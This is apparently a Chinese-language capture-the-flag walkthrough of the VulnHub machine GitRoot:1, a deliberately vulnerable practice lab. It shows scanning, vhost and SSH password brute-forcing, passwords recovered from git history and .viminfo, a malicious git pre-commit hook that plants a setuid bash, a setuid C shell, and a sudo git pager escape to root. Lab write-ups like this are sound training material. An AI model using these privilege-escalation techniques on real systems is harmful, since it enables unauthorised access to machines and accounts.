 # GitRoot：1

2025.03.01 https://www.vulnhub.com/entry/gitroot-1,488/

[video](https://www.bilibili.com/video/BV1GtXZYsEHz/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
11211/tcp open  memcache
```

先扫一下 80 web，http://192.168.5.40/index.html 中提示:

```
Hey Jen, just installed wordpress over at wp.gitroot.vuln
please go check it out!
```

添加 wp.gitroot.vuln 到 hosts 文件，再访问 http://wp.gitroot.vuln/ 底部显示 wordpress ，先用 wpscan 进行扫描，WordPress version 5.0.4，只枚举到一个用户: beth , 插件 akismet 4.1 没有有效利用。

暂时不想用 rockyou 进行爆破，看看 memcache 中是否能拿到登陆密码，尝试之后没有信息。

只好使用 wpscan 进行 beth 的爆破，也没有结果。

联想到添加了自定义的域名可能有 vhost，尝试爆破一下：

```
gobuster vhost -t 64 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --domain gitroot.vuln -u http://192.168.5.40

Found: repo.gitroot.vuln Status: 200 [Size: 438]
```

将 repo.gitroot.vuln 添加到 hosts 中，访问 http://repo.gitroot.vuln/ 上面显示两个可以访问连接，欢迎随意在 get.php 上搜索我们的代码库或在 set.php 中设置代码，访问这两个页面没看出什么信息，使用 gobuster 扫描一下这个域名发现 http://repo.gitroot.vuln/.git 使用 githack 将代码脱下来：

```
python3 ~/Documents/GitHack/GitHack.py http://repo.gitroot.vuln/.git
```

查看源代码，其中 http://repo.gitroot.vuln/stats.php 可以访问到 memcached 的状态，set.php 可以设置数据到 memcached，get.php 可以获得存储 key 对应的 value。

同时发现另外一个文件 33513a92c025212dd3ab564ca8682e2675f2f99bba5a7f521453d1deae7902aa.txt：

```
pablo_S3cret_P@ss
beth_S3cret_P@ss
jen_S3cret_P@ss
```

像是密码，使用之前得到的 beth 用户在爆破一下，不是 wordpress 和 ssh 的登陆密码。同时看到了另外的一个用户名 pablo , 在爆破一下这个用户的 ssh 密码吧，很长一段时间过去后，找到了登陆密码 mastergitar

登陆后，先拿到了 user flag：

```
pablo@GitRoot:~$ cat user.txt

  _______ _                 _                          _____      _     _
 |__   __| |               | |                        |  __ \    | |   | |
    | |  | |__   __ _ _ __ | | __  _   _  ___  _   _  | |__) |_ _| |__ | | ___
    | |  | '_ \ / _` | '_ \| |/ / | | | |/ _ \| | | | |  ___/ _` | '_ \| |/ _ \
    | |  | | | | (_| | | | |   <  | |_| | (_) | |_| | | |  | (_| | |_) | | (_)
    |_|  |_| |_|\__,_|_| |_|_|\_\  \__, |\___/ \__,_| |_|   \__,_|_.__/|_|\___/
                                    __/ |
                                   |___/


Great job! Do not falter, there is more to do. You made it this far, finish the race!

"It's not that I'm so smart. Its just that I stay with problems longer." - Albert Einstein

8a81007ea736a2b8a72a624672c375f9ac707b5e
```

发现了另外一个提示，message.txt 文件的所有者是 beth：

```
pablo@GitRoot:~/public$ cat message.txt
Hey pablo

Make sure to check-out our brand new git repo!
```

提示说找到新的 repo，经过枚举，发现 /opt/auth/.git，发现了很多 branch，进入到 /opt/auth/.git/logs/refs/heads 中，发现这个 branch 的大小与其他不同：dev-43 查看它的提交记录：

```
pablo@GitRoot:/opt/auth/.git/logs/refs/heads$ cat dev-43
0000000000000000000000000000000000000000 fc9901f3b6b303d6ad40cdb71689f1646904f7b3 Your Name <you@example.com> 1590499965 -0400	branch: Created from HEAD
fc9901f3b6b303d6ad40cdb71689f1646904f7b3 b2ab5f540baab4c299306e16f077d7a6f6556ca3 Your Name <you@example.com> 1590500014 -0400	commit: init repo
b2ab5f540baab4c299306e16f077d7a6f6556ca3 06fbefc1da56b8d552cfa299924097ba1213dd93 Your Name <you@example.com> 1590500148 -0400	commit: added some stuff
06fbefc1da56b8d552cfa299924097ba1213dd93 aaa283c708d79c692797339434664f4ba7accb25 Your Name <you@example.com> 1590500197 -0400	commit: init repo

pablo@GitRoot:/opt/auth/.git/logs/refs/heads$ git show 06fbefc1da56b8d552cfa299924097ba1213dd93
+        if (strcmp(pass, "r3vpdmspqdb") == 0 ){
+                char *cmd[] = { "bash", (char *)0 };
+                execve("/bin/bash", cmd, (char *) 0);
+        }

```

或者这样操作：

```
git checkout dev-43
git show
```

发现了一个密码 r3vpdmspqdb 可能是其中一个用户的，进行 su 切换验证，发现是 beth 用户的密码。

同时发现另外一个提示：

```
beth@GitRoot:~$ cd public/
beth@GitRoot:~/public$ ls
addToMyRepo.txt
beth@GitRoot:~/public$ cat addToMyRepo.txt
Hello Beth

If you want to commit to my repository you can add a zip file to ~jen/public/repos/ and ill unzip it and add it to my repository

Thanks!
```

根据提示说添加一个 zip 到 jen/public/repos/ 它会自解压，然后提交到自己的 repo 中，这个文件是 jen 用户创建的。

看看能不能在 git 上得到提权的路径，使用钩子进行提权（钩子的原理：当你执行一个 Git 命令（如 git commit 或 git push）时，Git 会首先检查".git/hooks"目录下是否存在对应的 hook 脚本，如果存在，则会触发执行这个脚本。）：

```
cd /tmp
mkdir repo
cd repo
git init
echo 'cp /bin/bash /tmp/jenbash; chmod +xs /tmp/jenbash' > ".git/hooks/pre-commit"
# echo 'echo "/bin/bash" > /var/tmp/jen1bash; chmod +xs /var/tmp/jen1bash' > ".git/hooks/pre-commit"
# echo 'cd /tmp; gcc shell.c -o shell; chmod +xs shell' > ".git/hooks/pre-commit"
chmod 777 ".git/hooks/pre-commit"
7z a rev.zip .git
cp rev.zip /home/jen/public/repos/
```

```
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
  printf("getuid(): %d\ngeteuid(): %d\ngetgid(): %d\ngetegid(): %d\n", getuid(), geteuid(), getgid(), getegid());
  setuid(1003);
  setgid(1003);
  system("/bin/bash -p");
  printf("getuid(): %d\ngeteuid(): %d\ngetgid(): %d\ngetegid(): %d\n", getuid(), geteuid(), getgid(), getegid());
  return 0;
}
```

等待 1 分钟在 tmp 目录下发现 jenbash ：

```
beth@GitRoot:/tmp/repo$ /tmp/jenbash -p
jenbash-5.0$ id
uid=1001(beth) gid=1001(beth) euid=1003(jen) egid=1003(jen) groups=1003(jen),1001(beth)
```

同时看到了解压的脚本：

```
jen@GitRoot:~/private$ cat add.sh
cat add.sh
rm -rf /home/jen/private/repo/.git/
cd /home/jen/private/repo/
git init
7za x -aos -o/home/jen/private/repo/ ~jen/public/repos/*
git add .
git commit --allow-empty -m "Thanks beth!"
rm -f /home/jen/public/repos/*
```

在 .viminfo 中发现了疑似的密码：

```
# Search String History (newest to oldest):
?/binzpbeocnexoe
|2,1,1590471908,47,"binzpbeocnexoe"
```

可能是 jen 或者是 root 用户的密码，尝试使用 su 切换用户，发现是 jen 的用户密码， sudo -l 输入 binzpbeocnexoe 显示 (ALL) /usr/bin/git ，现在可以直接提权到 root 了：

```
sudo -u root git help config
输入: !/bin/bash
```

得到了 root 权限，拿到 root flag：

```
root@GitRoot:~# cat root.txt

Thank you for completing my box! Please let my know what you liked and what you didn't like at my twitter @Recursive_NULL

734ae32be131cd0681f86c03858f4f587a3c69ce
```
